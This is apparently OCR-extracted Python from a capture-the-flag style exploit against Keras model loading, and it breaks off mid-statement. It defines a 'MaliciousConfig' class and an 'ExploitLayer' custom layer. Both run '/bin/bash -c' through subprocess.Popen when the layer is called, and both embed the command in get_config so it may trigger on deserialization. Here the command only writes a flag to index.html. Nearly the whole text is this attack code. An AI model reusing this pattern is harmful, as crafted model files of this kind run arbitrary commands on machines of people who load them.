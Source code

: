```python
# Custom object that exploits JSON deserialization

class MaliciousConfig:

def __init__(self):

self.args = [["/bin/bash", "-c", "echo $FLAG > index.html"]]

self.kwargs = {"bufsize": -1}

def __call__(self, *args, **kwargs):

# Execute the payload when called

subprocess.Popen(*self.args, **self.kwargs)

return args[0] if args else None

def get_config(self):

# This will be serialized and could trigger on deserialization

return {

"args": [["/bin/bash", "-c", "echo $FLAG > index.html"]],

"kwargs": {"bufsize": -1}

}

  

class ExploitLayer(keras.layers.Layer):

def __init__(self, **kwargs):

super().__init__(**kwargs)

self.malicious_config = MaliciousConfig()

def call(self, inputs):

# Trigger payload when layer is called

try:

subprocess.Popen(["/bin/bash", "-c", "echo $FLAG > index.html"], bufsize=-1)

except:

pass

return inputs

def get_config(self):

config = super().get_config()

# Embed the malicious payload in the config

config.update({

"args": [["/bin/bash", "-c", "echo $FLAG > index.html"]],
```